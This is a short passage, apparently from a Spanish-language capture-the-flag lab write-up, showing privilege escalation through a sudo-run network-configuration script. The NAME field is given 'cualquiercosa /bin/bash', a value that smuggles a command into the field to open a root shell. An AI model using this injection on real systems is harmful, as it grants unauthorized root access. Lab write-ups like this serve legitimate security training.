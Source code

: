 ![[Pasted image 20250619164258.png]](Networked_images/20250619164258.png)

#### ejecutamos el programa con sudo 

```bash
sudo /usr/local/sbin/changename.sh
```

21 rellenamos los campos  con cualquier palabra pero en NAME pondremos a demas /bin/bash

```bash
interface NAME:
cualquiercosa /bin/bash
interface PROXY_METHOD:
cualquiercosa
interface BROWSER_ONLY:
cualquiercosa
interface BOOTPROTO:
cualquiercosa 
```
